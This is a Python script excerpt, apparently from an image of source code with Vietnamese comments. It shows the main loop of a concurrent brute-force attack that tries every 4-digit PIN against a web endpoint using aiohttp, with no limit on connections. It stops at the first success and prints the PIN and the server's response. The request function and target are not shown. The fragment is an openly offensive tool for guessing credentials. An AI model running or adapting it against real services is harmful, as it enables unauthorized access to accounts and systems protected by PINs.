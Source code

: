 ```python
  
  
async def main():  
    found_pin = None  
    # Tạo semaphore để giới hạn request đồng thời  
    semaphore = asyncio.Semaphore(CONCURRENT_LIMIT)  
  
    async with aiohttp.ClientSession(  
            connector=aiohttp.TCPConnector(limit=0),  
            headers={"Connection": "keep-alive"}  
    ) as session:  
        tasks = [  
            try_pin(session, pin, semaphore)  
            for pin in range(10000)  
        ]  
  
        progress = tqdm_asyncio(  
            asyncio.as_completed(tasks),  
            total=len(tasks),  
            unit="req",  
            desc="Brute-forcing PIN",  
            dynamic_ncols=True,  
            mininterval=0.5  
        )  
  
        try:  
            for future in progress:  
                result = await future  
                if result:  
                    found_pin, data = result  
                    progress.set_description(f"✅ FOUND PIN: {found_pin}")  
                    break  
        except KeyboardInterrupt:  
            print("\n[!] Brute force interrupted by user")  
            sys.exit(1)  
        finally:  
            progress.close()  
  
    if found_pin:  
        print(f"\n[+] Success! PIN: {found_pin}")  
        print(f"Server response: {data}")  
        sys.exit(0)  
    else:  
        print("\n[-] PIN not found. Try expanding the search range")  
  
  
if __name__ == "__main__":  
    # Thiết lập event loop cho Windows  
    if sys.platform == "win32":  
        asyncio.set_event_loop_policy(asyncio.WindowsSelectorEventLoopPolicy())  
  
    asyncio.run(main())
```
